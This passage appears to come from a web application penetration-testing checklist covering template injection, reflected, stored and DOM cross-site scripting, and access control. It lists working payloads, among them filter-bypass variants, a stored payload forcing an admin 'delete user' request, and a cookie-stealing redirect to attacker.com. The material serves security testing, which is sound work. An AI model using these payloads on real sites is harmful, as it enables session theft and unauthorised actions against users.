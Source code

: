 - [ ] **Client-side template injection**
  ```javascript
  {{constructor.constructor('alert(1)')()}}
  ```

### 🔓 Cross-Site Scripting (XSS)

#### Reflected XSS
- [ ] **Basic payloads**
  ```html
  <script>alert('XSS')</script>
  <img src=x onerror=alert('XSS')>
  <svg onload=alert('XSS')>
  ```

- [ ] **Filter bypass techniques**
  ```html
  <ScRiPt>alert('XSS')</ScRiPt>
  <img src="x" onerror="alert(String.fromCharCode(88,83,83))">
  <svg><script>alert&#40;'XSS'&#41;</script>
  ```

#### Stored XSS
- [ ] **Test all input fields**
  - [ ] Comment sections
  - [ ] User profiles
  - [ ] File uploads
  - [ ] Contact forms

- [ ] **Advanced payloads**
  ```html
  <script>fetch('/admin',{method:'POST',body:'action=delete&user=victim'})</script>
  <script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>
  ```

#### DOM XSS
- [ ] **Source and sink analysis**
  - [ ] URL parameters → innerHTML
  - [ ] document.location → eval()
  - [ ] window.name → document.write()

- [ ] **Testing techniques**
  ```javascript
  #<script>alert('DOM XSS')</script>
  javascript:alert('DOM XSS')
  ```

### 🔐 Access Control Testing

#### Broken Access Control
- [ ] **Vertical privilege escalation**
  - [ ] Access admin functions as regular user
  - [ ] Modify user role parameters
  - [ ] Direct URL access to admin pages
